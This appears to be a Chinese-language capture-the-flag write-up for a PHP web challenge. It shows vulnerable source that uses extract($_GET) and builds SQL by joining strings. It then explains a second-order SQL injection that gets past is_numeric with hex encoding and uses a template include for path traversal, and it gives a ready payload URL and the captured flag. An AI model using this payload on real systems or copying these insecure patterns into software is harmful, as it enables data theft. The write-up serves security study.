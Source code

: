 ```php
<?php
    extract($_GET);
    require_once("common.php");
    require_once("config.php");
    session_start();
    if(is_numeric($role)){
        var_dump($_SESSION);
        $username = $_SESSION['username'];
        $role = addslashes($role);
        $sql_ = "update users set role=$role where username='$username'";
        $db = new sql();
        $db->register($sql_);
    }
```

- info.php

```php
<?php
    require_once("common.php");
    require_once("config.php");
    session_start();
    $username = $_SESSION['username'];
    $sql_ = "select * from users where username='$username'";
    $db = new sql();
    $row = $db->getone($sql_);
    $username = $row['username'];
    $role = $row['role'];
    $sql_ = "select info from info where role='$role'";
    $row = $db->getone($sql_);
    $info = $row['info'];
    require("template/info.php");
```

edit_info 中存在 `extract` 变量覆盖，`$role` 可作为注入点，可利用 16 进制编码绕过 `is_numeric` 检测从而构造任意 Payload。`require_once("common.php");` 中  common.php 中的 $role 会再次覆盖掉 $role 的值，require_once 同样的文件只会包含一次，此时可利用已经包含 common.php 的 index.php 中的 `require("template/$tem.php");` 来引入 edit_info 从而解决 $role 被覆盖的问题。

思路如下：

```sql
# edit_info.php
set role =  '/**/union/**/select/**/flag/**/as/**/info/**/from/**/f1ag_233#  '
# info.php
2. select info from info where role=''/**/union/**/select/**/flag/**/as/**/info/**/from/**/f1ag_233#
```

Payload：

```php
index.php?tem=../edit_info.php&role=0x272f2a2a2f756e696f6e2f2a2a2f73656c6563742f2a2a2f666c61672f2a2a2f61732f2a2a2f696e666f2f2a2a2f66726f6d2f2a2a2f663161675f32333323
```

获得 `flag{981369acba32abc4e28103fedd4891d2}`.






